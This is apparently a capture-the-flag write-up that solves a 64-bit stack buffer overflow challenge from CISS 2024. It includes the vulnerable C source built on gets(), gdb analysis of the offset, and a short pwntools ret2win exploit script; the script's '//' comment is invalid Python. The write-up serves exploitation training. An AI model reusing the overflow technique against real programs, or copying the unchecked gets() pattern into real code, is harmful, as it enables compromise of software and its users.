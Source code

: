 ```yaml
---
layout: post
title: "Baby buffer overflow - CISS 2024"
---
```


# Background

This is a pwn challenge from CISS2024, unfortunately this was eventually cancelled because they reused challenges and solutions were found half-way through the ctf :(

# Start

Very simple bof problem just by looking at the source code.

```c
#include <stdio.h>
#include <stdlib.h>

#define TRUE 1 

void gruss() {
    //Kein Teilnehmer wird einen Namen mit mehr als 64 Buchstaben haben
    char name_user[64] = {'\0'};
    printf("Wie heisst du?:\n");
    gets(name_user);
    printf("Hallo %s. Viel Spass bei DBH!\n", name_user);
}

void spass() {
    printf("So macht DBH doch viel mehr Spass.\n");
    char* args[3] = {"/bin/cat", "./flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main(int argc, char* argv[]) {
    gruss();
}
```
> dont ask me why its in german

The usual `gets()` function where it excepts whatever the user throws at it until it receives a `\n` character. This allows us to input more than the allocated size of the buffer.

# More info

A quick `checksec` reviews that there are no protection mechanisms on the binary. 

![Pasted image 20240919222132](https://github.com/user-attachments/assets/e179b3ac-aee5-46fb-9ace-78341bdf8e07)
>maybe its a bit too easy

We also find out the binary is 64bit.

# Exploit

![Pasted image 20240919222524](https://github.com/user-attachments/assets/b26968c6-0140-486b-8f4d-d5ab924a20f2)

A quick gdb tour tells us the address of `name_user` buffer at `rbp - 0x40` is loaded into `rax` at `*gruss + 101` then its moved into `rsi` for `printf`. Lets set a break point at `*gruss + 105`

![Pasted image 20240919223120](https://github.com/user-attachments/assets/2bbd72b8-4e99-4c3c-84b0-5b1ec6482899)

After we hit the breakpoint we can take a look at the registers

![Pasted image 20240919223403](https://github.com/user-attachments/assets/369d8bb0-a69b-4a71-9b3f-36dfdeca3b25)

We obtain the address of `rbp` and from the disassembled code of the `gruss` function, we know that `rbp - 0x40` is where the input buffer starts. 

![Pasted image 20240919223739](https://github.com/user-attachments/assets/71453b2d-af64-470c-9cfb-d8d71490e111)

Taking a look at the stack values we indeed see the `A`'s we send. We also see the return address that we have to overflow at `rbp + 8`. Our job here is very easy because there is no canary for this binary.

![Pasted image 20240919224614](https://github.com/user-attachments/assets/e6a3dc70-447b-4754-8c53-e5474987804e)

We then disassemble the `spass` function which prints out the flag. Because there is no PIE the address of the function will always be `0x4011d2`.

# More exploit

Knowing the offset and what we have to overflow, we craft a simple exploit script.

```python
from pwn import *

context.binary = "/home/kali/greetings"
p = process('/home/kali/greetings')

// 64 buffer + 8 = 72
payload = b'A' * 72 + p64(0x4011d2)

p.sendline(payload)
p.interactive()
```
![Pasted image 20240919224227](https://github.com/user-attachments/assets/6af9b391-a7d2-48b6-ace2-fa512a7fd386)

Great!
